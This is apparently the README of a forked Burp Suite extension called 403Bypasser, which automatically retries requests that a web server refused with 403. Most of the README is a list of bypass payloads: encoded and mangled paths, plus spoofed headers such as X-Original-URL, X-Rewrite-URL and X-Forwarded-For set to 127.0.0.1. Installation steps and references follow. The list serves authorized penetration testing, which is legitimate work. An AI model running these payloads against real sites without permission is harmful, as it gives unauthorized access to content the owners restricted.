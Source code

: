 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

This forked repository adds new payloads to test.
Original: https://github.com/sting8k/BurpSuite_403Bypasser

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.randomstring
$1/$2..;/
$1/$2%
$1/$2%09/
$1/$2../
$1/$2..%2f
$1/$2..%00/
$1/$2..%0d/
$1/$2..%5c
$1/$2..%ff/
$1/$2.%2e/
$1/$2?radomstring
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
* [https://twitter.com/lobuhisec/status/1329705441883017218](https://twitter.com/lobuhisec/status/1329705441883017218)
